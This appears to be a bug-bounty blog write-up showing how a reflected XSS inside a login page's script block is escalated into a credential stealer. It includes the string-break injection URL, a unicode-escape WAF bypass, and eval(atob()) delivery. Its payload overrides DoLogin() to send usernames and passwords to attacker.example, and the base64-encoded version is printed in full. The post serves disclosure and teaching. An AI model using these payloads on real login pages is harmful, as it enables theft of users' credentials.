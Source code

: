 ```yaml
---
layout: post
title: "From \"Low-Impact\" RXSS to Credential Stealer: A JS-in-JS Walkthrough"
date: 2025-08-25T00:14:54+00:00
img_dir: "/assets/2025-08-25-rxss-credential-stealer/images"
description: "From the classic “quote break” in a <script> to a login takeover: step by step, I show how a “low-impact” RXSS becomes a real credential stealer."
categories: [bugbounty]
---
```

![Cover]({{ page.img_dir | relative_url }}/cover.png) 



Ethical note: the following is for educational purposes and documents a real case in an authorized context (bug bounty). Do not perform attacks on systems without permission.

During my hunt, I found an RXSS that was apparently “harmless” and had little impact because all cookies were set with the “HttpOnly” flag, so it was not possible to steal the session cookie. If I had sent the report as it was, it would have been treated as Low/Medium, so I decided to find something to present to the program company that would make it a High.
Since the vulnerability was on the login page of a web app, I decided to turn the XSS into a kind of “phishing” attack.

## Context

The login page renders several server-side variables into a `<script>` block. One of them—coming from a query parameter (`l`)—is echoed inside a JavaScript string:

```html
<script>
  /* ... */
  var AspInterfaceLanguage = "test"; // ← user-controlled
  /* ... */
</script>
```

This is the classic **JS-in-JS sink**: if you can close the string and re-enter code context, you execute arbitrary JavaScript without touching HTML at all.

### Finding the break point

The goal is to use `l` to **close** the string, **inject** code, and then **repair** the syntax so the rest of the page parses cleanly.

A minimal mental model of the injected sequence:

```
"            // end the original string
;            // finish the statement defensively
<INJECTION>  // run my JavaScript
; a = "      // resume the string the page expects
```
So the URL looks something like this: 
`/Login.asp?IdSite=0&Error=&l=test";<INJECTION>;a="`

Which is reflected in this way : 

```html
<script>
    /* ... */
    var AspInterfaceLanguage = "test"<INJECTION>;a="";
    /* ... */
</script>
```

Before proceeding with the exploit there is a clarification to be made the webapp has a WAF system in front that recognizes possible malicious javascript patterns (alert/eval etc.) and blocks requests
So to bypass this control, unicode was used in this way :

```javascript
\u0061\u006C\u0065\u0072\u0074(1) // alert(1)
```
I don't know if it's a WAF or a backend check, but it's really weak and stupid.

So the payload to trigger an alert is:
`/Login.asp?IdSite=0&Error=&l=test";\u0061\u006C\u0065\u0072\u0074(1);a="`

## Convert XSS into "Credential Stealer" to increase impact

Analyzing the login page, I noticed that the login form was managed by a JS function `DoLogin()` declared in another `<script>` tag further down. 

```html

<script>

/* ..... */

function DoLogin() {

    /* ...... */
    
    var user = Trim(FormInput.InputUtente.value)
    var password = Trim(FormInput.InputPassword.value) 
        
    /* ...... */

}

/* ..... */

</script>
```

So I thought that if I replaced the content of the `DoLogin()` function with malicious code, I would have control over the login process. For Example : 

```javascript

const DoLogin = () => {
  const pwd  = Trim(FormInput.InputPassword.value);
  const user = Trim(FormInput.InputUtente.value);

  // PoC: send to a controlled listener
  fetch("https://attacker.example/?" +
        "u=" + encodeURIComponent(user) +
        "&p=" + encodeURIComponent(pwd));
};

```
I use `const` to prevent the function from being redefined later with the legitimate one in the `<script>` tag below.

However, this payload converted to Unicode became extremely long, so I decided to use eval+base64 to make it more deliverable.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('<BASE_64_PAYLOAD>'))  // eval(atob('<BASE_64_PAYLOAD>'))

```

At this point, I encountered a problem and discovered that if you use `const` or `let` inside `eval()`, the declared variables/functions are not accessible globally but remain accessible only inside `eval()`.  [eval() reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

So, to avoid this problem, I created a new script element that contains the payload. 

```javascript
var s=document.createElement('script');
s.textContent="const DoLogin = () => {const pwd = Trim(FormInput.InputPassword.value); const user = Trim(FormInput.InputUtente.value); fetch('https://attacker.example/?u='+encodeURIComponent(user)+'&p='+encodeURIComponent(pwd));}";
document.head.appendChild(s);
```

Now let's encode all of the above code in base64 and insert it into the final payload.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7DQpzLnRleHRDb250ZW50PSJjb25zdCBEb0xvZ2luID0gKCkgPT4ge2NvbnN0IHB3ZCA9IFRyaW0oRm9ybUlucHV0LklucHV0UGFzc3dvcmQudmFsdWUpOyBjb25zdCB1c2VyID0gVHJpbShGb3JtSW5wdXQuSW5wdXRVdGVudGUudmFsdWUpOyBmZXRjaCgnaHR0cHM6Ly9hdHRhY2tlci5leGFtcGxlLz91PScrZW5jb2RlVVJJQ29tcG9uZW50KHVzZXIpKycmcD0nK2VuY29kZVVSSUNvbXBvbmVudChwd2QpKTt9IjsNCmRvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQocyk7'))

```

### Execution order: the tiny detail that changes everything

The **vulnerable** `<script>` (the one with var `AspInterfaceLanguage = "..."`) appears **before** the script that defines the legitimate DoLogin(). That means:

1. The payload runs **immediately** as the parser processes the first `<script>`.

2. The injector adds a new `<script>` that declares `const DoLogin` **first**.

3. When the later script tries to declare `function DoLogin(){...}`, the name is **already bound**, leaving my hook in control.


## Conclusion 

With this little trick, I turned a simple, low-impact XSS into a “Credential Stealer.” The triager evaluated and accepted it as High, and I received a bounty of €1,200.